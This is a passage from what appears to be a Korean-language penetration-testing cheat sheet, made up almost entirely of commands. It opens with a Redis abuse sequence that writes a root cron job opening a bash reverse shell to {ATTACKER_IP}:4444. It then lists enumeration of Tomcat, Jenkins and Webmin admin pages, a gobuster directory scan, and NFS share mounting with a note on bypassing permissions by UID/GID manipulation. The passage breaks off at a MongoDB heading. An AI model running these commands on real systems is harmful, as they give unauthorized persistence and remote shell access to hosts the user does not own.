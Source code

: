 ```bash
CONFIG SET dir /var/spool/cron/crontabs/
CONFIG SET dbfilename root
SET cron "\n* * * * * /bin/bash -i >& /dev/tcp/{ATTACKER_IP}/4444 0>&1\n"
SAVE
```

### 🌐 ALTERNATIVE WEB PORTS (8080/8443/8000/3000/9000)

```bash
# 기본 웹 서비스 확인
curl -I http://{IP}:8080
curl -I https://{IP}:8443
whatweb http://{IP}:8080

# 일반적인 관리 인터페이스들
curl http://{IP}:8080/manager/html    # Tomcat
curl http://{IP}:8080/admin           # Various
curl http://{IP}:10000                # Webmin

# 디렉토리 스캔
gobuster dir -u http://{IP}:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Jenkins 확인 (8080)
curl http://{IP}:8080/script          # Script console
curl http://{IP}:8080/systemInfo      # System info

# Node.js 앱 확인 (3000, 8000)
curl http://{IP}:3000/package.json    # Package info
```

### 📁 NFS (Port 2049) & RPC (Port 111)

```bash
# RPC 서비스 확인
rpcinfo -p {IP}

# NFS 공유 확인
showmount -e {IP}
nmap --script nfs-showmount -p 111 {IP}

# NFS 마운트
mkdir /mnt/nfs
mount -t nfs {IP}:/shared /mnt/nfs
ls -la /mnt/nfs

# NFS 권한 확인
ls -la /mnt/nfs
id
# UID/GID 조작으로 권한 우회 시도
```

### 💾 MONGODB (Port 27017)
